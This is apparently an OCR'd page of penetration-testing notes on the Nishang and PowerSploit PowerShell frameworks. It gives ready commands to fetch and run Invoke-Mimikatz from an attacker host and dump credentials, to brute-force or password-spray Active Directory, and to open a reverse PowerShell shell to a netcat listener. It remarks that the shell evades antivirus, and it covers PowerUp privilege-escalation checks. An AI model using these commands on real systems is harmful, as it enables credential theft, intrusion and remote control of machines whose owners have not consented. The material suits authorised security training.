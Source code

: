 The `Invoke-Mimikatz` cmdlet will dump clear-text credentials (or hashes) from memory.
`iex (New-Object Net.WebClient).DownloadString('http://<AttackerIP>/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds`.

The `Invoke-BruteForce` cmdlet can be used to brute force Active Directory accounts, SQL Server, Web or FTP servers. The great thing about a brute force tool written in PowerShell is that we can execute the attack from our target host as long as we copy a file containing usernames and passwords to our target.
`Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\temp\pwds.txt -Service ActiveDirectory -StopOnSuccess -Verbose`.
This is also a great tool for executing a password spray attack against Active Directory. Just ensure that your password list contains a single password.

[*Shells* modules](https://github.com/samratashok/nishang/tree/master/Shells).

There are several different shells, both bind, reverse, ICMP, UDP shells, and some more complex rat-type shells we can utilize.

The `Invoke-PowerShellTcp` cmdlet provides an excellent way to obtain a reverse PowerShell shell from our target host back to a netcat listener. Keep in mind that if using this method, take into consideration that the traffic is traversing the wire in cleartext between attacker and target.
Although a great and undetected (by Antivirus) method to get a reverse shell from PowerShell, over-the-wire heuristics (SIEM) may pick up some of the back and forth chatter if that type of solution has been implemented within an organization.
`nc -nlvp 4444`: first fire up a netcat listener on our attacker machine.
`powershell.exe -Command iex (New-Object Net.WebClient).DownloadString('http://<AttackerIP>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <ListenerIP> -Port 4444`.

#### PowerSploit

[**PowerSploit**](https://github.com/PowerShellMafia/PowerSploit) is another great information gathering and post-exploitation framework.

As with other frameworks, there are several categories in PowerSploit we can use for our post-exploitation purposes.
- AntivirusBypass
- CodeExecution
- Exfiltration
- Mayhem
- Persistence
- Privesc
- Recon
- ScriptModification.

[*PrivEsc* module](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc).

The `PowerUp` script offers a good starting point in the identification of misconfigurations which could lead to privilege escalation.
`dir C:\Modules\PowerSploit\Privesc`, `Import-Module .\Privesc.psml`: to import the Privesc.psm1 module from within the Privesc modules directory.
`Get-Command -Module PrivEsc`: to have a look at some of the options we have.

Of course, we can run any one of those functions or scripts independently, but this module includes an `Invoke-AllChecks` function, that will run all functions related to the Privesc module looking for misconfigurations, permissions issues with services, opportunities for DLL hijacking a number of other useful checks.
`Invoke-AllChecks` or `Invoke-AllChecks -HTMLReport` to save all results to an HTML report file.
The output will also indicate an "AbuseFuntion" we can use to further exploit the target.
